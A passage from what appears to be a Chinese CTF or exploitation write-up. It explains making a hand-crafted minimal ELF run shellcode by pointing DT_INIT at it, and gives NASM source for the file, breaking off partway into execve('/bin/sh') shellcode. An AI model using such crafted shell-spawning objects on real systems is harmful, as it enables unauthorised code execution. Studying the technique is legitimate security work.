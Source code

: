 进一步查阅资料发现了如下定义

```
DT_INIT 12 d_ptr Address of the initialization function

```

也就是说，我们只需要把`DT_INIT`指向我们的`shellcode`即可执行我们的目标函数，并且我们也不需要如此多的节区，因此我们可以删去三个无关节区，仅保留`dynsym`节区即可

```
; My_test.s
BITS 64

    org     0x00400000

ehdr:                                               ;   Elf64_Ehdr
            db      0x7F, "ELF", 2, 1, 1, 0         ;   e_ident
    times 8 db      0
            dw      3                               ;   e_type
            dw      62                              ;   e_machine
            dd      1                               ;   e_version
            dq      _start                          ;   e_entry
            dq      phdr - $$                       ;   e_phoff
            dq      sectionHeaders - $$             ;   e_shoff
            dd      0                               ;   e_flags
            dw      ehdrsize                        ;   e_ehsize
            dw      phdrsize                        ;   e_phentsize
            dw      2                               ;   e_phnum
            dw      64                              ;   e_shentsize
            dw      6                               ;   e_shnum
            dw      4                               ;   e_shstrndx

ehdrsize    equ     $ - ehdr

phdr:                                               ;   Elf64_Phdr
    phdr_loadable:
            dd      1                               ;   p_type
            dd      7                               ;   p_flags
            dq      0                               ;   p_offset
            dq      $$                              ;   p_vaddr
            dq      $$                              ;   p_paddr
            dq      filesize                        ;   p_filesz
            dq      filesize                        ;   p_memsz
            dq      0x1000                          ;   p_align

phdrsize    equ     $ - phdr

    phdr_dynamic:
            dd      2                               ;   p_type
            dd      7                               ;   p_flags
            dq      dynamic                         ;   p_offset
            dq      dynamic                         ;   p_vaddr
            dq      dynamic                         ;   p_paddr
            dq      dynamicsize                     ;   p_filesz
            dq      dynamicsize                     ;   p_memsz
            dq      0x1000                          ;   p_align

main:
    _start:
            xor rsi,rsi
            cdq
            push rsi

            mov rdi , 0x68732f6e69622f
            push rdi
```